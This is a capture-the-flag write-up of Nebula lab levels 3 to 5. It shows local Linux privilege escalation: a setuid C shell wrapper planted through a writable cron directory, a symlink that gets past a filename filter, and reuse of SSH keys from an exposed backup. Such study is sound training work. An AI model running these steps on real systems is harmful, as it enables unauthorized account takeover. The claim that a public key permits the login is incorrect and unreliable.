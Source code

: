 ```yaml
---
title: "Writeup: Nebula (level 3 - level 5)"
date: 2020-12-18T12:06:53+08:00
draft: false
---
```


Nebula is a virtual machine that covers a variety of challenges about Linux privilege escalation, scripting language issues, and file system race conditions. It is available at [Exploit Exercises](https://exploit-exercises.lains.space/).

<br>

## Level 3

The description of Level 3 is provided as follows. 

```
Check the home directory of flag03 and take note of the files there.

There is a crontab that is called every couple of minutes.

To do this level, log in as the level03 account with the password level03. 
Files for this level can be found in /home/flag03.
```

As you can see, there are one shell script and one directory in /home/flag03. 

![](https://github.com/chuang76/image/blob/master/03-1.PNG?raw=true)

Let's check the contents of writable.sh. It runs each file in the directory writable.d. 

```
#!/bin/sh
for i in /home/flag03/writable.d/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

According to the hint, there is a crontab in the system. [Cron](https://en.wikipedia.org/wiki/Cron) (cron job) is a time-based job scheduler in Unix-based systems. It provides the user to run the jobs (commands or shell scripts) at fixed times. Its configure table, crontab (cron table), is used to specify the shell command to run periodically on a given schedule. We can check the contents of crontab in /etc directory. 

![](https://github.com/chuang76/image/blob/master/03-6.PNG?raw=true)

Let's check the cron mechanism with a simple experiment. Create a shell script in the writable.d while the shell script is going to create a file named "test" in /home/flag03. As you can see, after two minutes, a file named "test" was created in /home/flag03 indeed. 

![](https://github.com/chuang76/image/blob/master/03-2.PNG?raw=true)

So, to get the flag, we can create a shell script again, which executes our exploit program, in the writable.d. Since /tmp directory is world-writable. We can write our exploit program and compile it in /tmp. It is the same as the exploit program in [Level 1](https://chuang76.github.io/posts/nebula_p1/). 

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char** argv)
{
    gid_t gid = getegid();
    uid_t uid = geteuid();

    setresgid(gid, gid, gid);
    setresuid(uid, uid, uid);

    system("/bin/bash");
}
```

![](https://github.com/chuang76/image/blob/master/03-3.PNG?raw=true)

Also, the shell script named run.sh contains the following commands. 

```
cp /tmp/vul /home/flag03/vul 
chmod u+s /home/flag03/vul
```

After a couple of minutes, cron runs the jobs (include shell scripts) in the system. Therefore, an executable named `vul` exists in /home/flag03. Besides, due to chmod command previously executed, we have the permission to run vul. 

![](https://github.com/chuang76/image/blob/master/03-4.PNG?raw=true)

Now, let's run this exploit executable to control the bash of the account flag03. 

![](https://github.com/chuang76/image/blob/master/03-5.PNG?raw=true)

<br>

## Level 4

The description of Level 4 is provided as follows.

```
This level requires you to read the token file, but the code restricts the files 
that can be read. Find a way to bypass it :)

To do this level, log in as the level04 account with the password level04. 
Files for this level can be found in /home/flag04.
```

The source code is available. 

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
      char buf[1024];
      int fd, rc;

      if(argc == 1) {
          printf("%s [file to read]\n", argv[0]);
          exit(EXIT_FAILURE);
      }

      if(strstr(argv[1], "token") != NULL) {
          printf("You may not access '%s'\n", argv[1]);
          exit(EXIT_FAILURE);
      }

      fd = open(argv[1], O_RDONLY);
      if(fd == -1) {
          err(EXIT_FAILURE, "Unable to open %s", argv[1]);
      }

      rc = read(fd, buf, sizeof(buf));

      if(rc == -1) {
          err(EXIT_FAILURE, "Unable to read fd %d", fd);
      }

      write(1, buf, rc);
}
```

According to the source code, if we use "token" as the argument of flag04, we'll get the error message: You may not access token. However, we can perform an indirect way to view the contents of a restricted file. That is, create a symbolic link of the file token. 

```
$ ln -s [target] [target_symbolic]
```

![](https://github.com/chuang76/image/blob/master/04-1.PNG?raw=true)

After we have made the symbolic link, we can execute target_symbolic file, just as we could with the target file. Now, we can read the contents of token as follows. 

![](https://github.com/chuang76/image/blob/master/04-2.PNG?raw=true)

Use the token as the password of account flag04, then we can get the flag. 

![](https://github.com/chuang76/image/blob/master/04-3.PNG?raw=true)

<br>

## Level 5

The description of Level 5 is provided as follows.

```
Check the flag05 home directory. You are looking for weak directory permissions

To do this level, log in as the level05 account with the password level05. 
Files for this level can be found in /home/flag05.
```

We first check the contents in the directory /home/flag05. 

![](https://github.com/chuang76/image/blob/master/05-1.PNG?raw=true)

There is a compressed file in the directory .backup. Let's try to uncompress it. However, the error message indicates that we don't have the permission. 

![](https://github.com/chuang76/image/blob/master/05-2.PNG?raw=true)

To get rid of the permission issue, let's copy this file into /tmp directory. 

![](https://github.com/chuang76/image/blob/master/05-3.PNG?raw=true)

Now, we are able to uncompress the compressed file with tar command. 

![](https://github.com/chuang76/image/blob/master/05-4.PNG?raw=true)

After uncompressing the file, we obtain the public key, which helps us to log into a remotely as account flag05. [SSH](https://en.wikipedia.org/wiki/SSH_(Secure_Shell)) (Secure shell) is a cryptographic network protocol. It provides users to control the remote servers over the Internet, such as login, remote command-line, to name a few. 

Since SSH uses [public-key cryptography](https://en.wikipedia.org/wiki/Public-key_cryptography) to authenticate and now we have the public key, we are allowed to log in remotely as the account flag05 without any passwords. Let's try it via ssh command. 

```
$ ssh flag05@localhost
```

As you can see, we log in as the account flag05. 

![](https://github.com/chuang76/image/blob/master/05-5.PNG?raw=true)

Here is the flag. 

![](https://github.com/chuang76/image/blob/master/05-6.PNG?raw=true)





